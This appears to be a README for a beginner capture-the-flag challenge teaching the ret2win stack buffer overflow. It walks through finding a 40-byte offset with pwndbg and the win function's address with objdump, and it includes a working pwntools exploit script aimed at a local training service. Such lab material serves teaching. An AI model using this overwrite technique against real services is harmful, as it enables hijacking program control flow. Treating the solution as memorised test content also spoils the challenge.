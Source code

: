 # Challenge Name
babyr2w

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, you can see that `win` function is never called. We want to call this function as it contains the flag.

If you recall your basic buffer overflow practice, we overflowed the **saved base pointer address** to cause a segmentation fault. This time on top of that, we want to overwrite the return address.


We will perform a technique called **ret2win**. The idea is overflow and rewrite the **return address** on the stack to another function

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `win` address

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijn sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the win address:
```shell
$> objdump -d chall | grep win
0000000000400797 <win>:
```

Now we can put our solve script together!

#### Final Solution
```py
from pwn import *

p = remote("127.0.0.1", 8881)

# address of win function
win = p64(0x400797)

# payload 
payload = b'A' * 40
payload += win

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Attached Files
- chall.c
- chall

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Flag
TBD